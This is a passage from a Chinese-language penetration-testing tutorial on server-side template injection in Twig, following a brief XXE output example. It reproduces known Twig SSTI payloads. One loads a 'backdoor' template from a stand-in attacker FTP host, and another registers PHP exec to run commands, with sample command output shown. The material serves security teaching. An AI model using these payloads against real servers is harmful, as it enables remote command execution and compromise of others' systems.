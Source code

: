 阅读响应中的 HTML 代码，我们可以找到以下字符串：

```
Warning: simplexml_load_string(): <html><body>zz4z85vbr0640exz8e6wvvzjlgigrgjfigz</body></html> in /var/www/xml/example1.php on line 4 
```

# 利用 SSTI 漏洞执行服务器命令

SSTI 是一种漏洞，当应用程序使用框架来显示其呈现给用户的方式时发生。这些模板是输入，如果这些输入没有得到正确验证，它们可能会改变行为。

这些漏洞在很大程度上取决于开发人员用来创建应用程序的技术，因此并非所有情况都相同，作为渗透测试人员，您需要识别这些差异以及其对漏洞利用的影响。

# 使用 Burp Suite 来利用这个漏洞

假设您有一个易受 SSTI 攻击的应用程序正在使用 Twig。Twig ([`twig.symfony.com/`](https://twig.symfony.com/)) 是一个在 PHP 中开发的模板引擎。

我们可以通过源代码检测引擎的使用。考虑以下代码片段：

```
var greet = 'Hello $name'; 
<ul> 
<% for(var i=0; i<data.length; i++) 
{%> 
<li><%= data[i] %></li> 
<% } 
%> 
</ul> 
<div> 
<p> Welcome, {{ username }} </p> 
</div> 
```

在这里，我们可以看到应用程序正在等待数据以向用户呈现最终网站。当 PHP 读取模板时，它会执行其中包含的所有内容。例如，2015 年，James Kettle 发布了一个漏洞，允许使用以下字符串在 Twig 中注入后门：

```
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}} 
```

遵循相同的思路，可以使用以下字符串执行任何命令，甚至获取 shell：

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}} 
uid=1000(k) gid=1000(k) groups=1000(k),10(wheel) 
```

这是因为在代码中，可以注入任何 PHP 函数，而不需要验证。Kettle 在源代码中展示了漏洞，如下所示：

```
public function getFilter($name){ 
[snip] 
   foreach ($this->filterCallbacks as $callback) { 
         if (false !== $filter = call_user_func($callback, $name)) { 
               return $filter; 
         } 
   } 

   return false; 
} 
public function registerUndefinedFilterCallback($callable){ 
   $this->filterCallbacks[] = $callable; 
} 
```
